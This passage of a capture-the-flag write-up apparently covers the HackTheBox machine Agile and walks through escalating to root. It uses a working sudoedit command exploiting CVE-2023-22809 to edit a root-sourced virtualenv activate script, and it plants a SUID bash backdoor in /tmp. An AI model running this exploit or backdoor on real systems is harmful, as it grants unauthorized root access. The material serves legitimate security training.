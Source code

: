 
### Shell as root

root is periodically logging in, and each time it will source
`/app/venv/bin/activate`. If I can edit that, I can get execution as root.
This file is writable by root and dev_admin:

    
    
    edwards@agile:/$ ls -l /app/venv/bin/activate
    -rw-rw-r-- 1 root dev_admin 1976 Jan 25 18:24 /app/venv/bin/activate
    

I’ll abuse CVE-2023-22809 to write this file as dev_admin:

    
    
    edwards@agile:/$ EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json 
    [sudo] password for edwards: 
    

In the file, I’ll add code to create a SUID bash:

![image-20230125133012362](../img/image-20230125133012362.png)

After the next minute, the backdoor is now in `/tmp`, and gives a shell:

    
    
    edwards@agile:/$ /tmp/0xdf -p
    edwards@agile:/# id
    uid=1002(edwards) gid=1002(edwards) euid=0(root) groups=1002(edwards)
    

## Beyond Root

### Unintendeds Patched

Agile [was patched](https://app.hackthebox.com/machines/agile/changelog) after
it’s week in the season scoring to fix two vulnerabilities:
